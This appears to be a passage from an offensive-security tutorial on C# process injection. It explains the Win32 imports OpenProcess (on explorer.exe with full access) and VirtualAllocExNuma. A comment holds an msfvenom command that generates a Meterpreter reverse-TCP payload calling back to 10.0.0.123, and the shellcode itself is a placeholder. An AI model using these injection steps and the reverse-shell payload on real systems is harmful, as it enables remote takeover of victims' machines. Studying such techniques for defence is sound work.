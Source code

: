 ### Declaring and importing the Win32 APIs discussed earlier

**`DllImport`**: This attribute is used in C# to declare a method that is implemented in an unmanaged DLL. In this case, it specifies `kernel32.dll` or `ntdll.dll`, which is a core Windows library containing basic system functions

**`SetLastError`**: When set to `true`, it indicates that the `Marshal.GetLastWin32Error` method will be able to get the error code if this function call fails.

**`ExactSpelling`**: When set to `true`, it prevents the .NET runtime from trying to automatically append "A" or "W" (for ANSI or Unicode versions respectively) to the end of the function name.
#### OpenProcess API 

Open the local process, in this case is `explorer.exe`

```cs
public const uint ProcessAllFlags = 0x001F0FFF;

[DllImport("kernel32.dll", SetLastError = true)]
public static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int processId);

            // The OpenProcess opens an existing local process for interaction e.g: explorer.exe
            string targetedProc = "explorer"; //change
            int procId = Process.GetProcessesByName(targetedProc).First().Id; // Grab the right Process ID
            // Get a handle on the remote process
            IntPtr pHandle = OpenProcess(ProcessAllFlags, false, procId);
            Console.WriteLine($"Got handle {pHandle} on PID {procId} ({targetedProc}).");
```

- `dwDesiredAccess`: set the required [access rights](https://learn.microsoft.com/en-us/windows/win32/procthread/process-security-and-access-rights) on the remote process. Its value will be checked against the [Security Descriptors](https://learn.microsoft.com/en-us/windows/win32/secauthz/security-descriptors). In our case, we request the PROCESS_ALL_ACCESS process right, which will give us complete access to the "explorer.exe" process. PROCESS_ALL_ACCESS has a hexadecimal representation of "0x001F0FFF".
- `bInheritHandle`: don't care about created child process
- `dwProcessId`: Process ID

#### VirtualAllocExNuma

[VirtualAllocExNuma](https://learn.microsoft.com/en-us/windows/win32/api/memoryapi/nf-memoryapi-virtualallocexnuma) function Reserves, commits, or changes the state of a region of memory within the virtual address space of the specified process, and specifies the NUMA node for the physical memory.

```cs
[System.Runtime.InteropServices.DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
static extern IntPtr VirtualAllocExNuma(IntPtr hProcess, IntPtr lpAddress, uint dwSize, UInt32 flAllocationType, UInt32 flProtect, UInt32 nndPreferred);

	IntPtr mem = VirtualAllocExNuma(GetCurrentProcess(), IntPtr.Zero, 0x1000, 0x3000, 0x4, 0);

	// msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.0.0.123 LPORT=443 -f csharp
	byte[] buf = new byte[511] { SHELLCODE_GO_HERE };

	int len = buf.Length;
	uint uLen = (uint)len;
```
